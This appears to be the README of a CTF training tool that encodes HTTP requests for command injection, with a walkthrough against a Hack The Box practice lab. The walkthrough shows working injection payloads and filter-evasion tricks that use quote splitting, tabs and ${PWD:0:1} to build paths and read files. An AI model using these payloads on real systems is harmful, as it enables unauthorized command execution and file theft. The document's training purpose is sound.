 # Request Encoder

Request Encoder (cire) is a tool that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

#### Examples

The tool accept three kind of input formats injected into `-p`:

* `-i`: a string that is injected into
* `-w`: a wordlist (one string per line)
* `-I`: a file whose content will be inline using `\n`

```bash
$ onectf request -u 'URL' -v -X POST -p uid -w uids
```

By default, assuming the parameter is `-p param`, then the parameter will be injected into the URL (`GET`) or in the body (`POST/...`). Some websites are not using parameters, e.g., they send `body: xxx` instead of `body: param=xxx`.

* Use `--json` when there is no parameter and the payload is JSON
* Use `--raw` when there is no parameter

```bash
$ onectf request -u 'URL' -v -X PUT --json -I request.json
$ onectf request -u 'URL' -v -X POST --raw -I request.xml
```

Aliases are automatically enabled by default. You can use:

* `<q>` instead of `'` (quote)
* `<er>` instead of `2>&1` (error redirection)
* `<tab>` for a tabulation character
* `<m>` instead of `-` (minus)
* `<crlf>` instead of `%0D%0A` (`\r\n`)
* `<lf>` instead of `%0A` (`\n`)

```bash
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -p param -i 'echo <q>Hello<q>'
$ onectf request -u 'URL' -v -X POST -p param -i 'xxx<lf>whoami'
```

You can select with tamper script to apply:

```bash
$ onectf request -u 'URL' -v -X POST -p param --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X GET -p 'param' -w uids -f html --tamper base64
```

While fuzzing is not the primary purpose:

```bash
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
$ onectf request -u 'URL/FUZZ' -X GET --fuzz -H 'Cookie: session=XXX; HttpOnly; Path=/' -w uids -f json
```

You can use `-f` to select a specific output format:

```bash
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' -f raw
$ onectf request -u 'URL' -v -X POST -p 'uid' -w uids -f html
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
```

#### Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```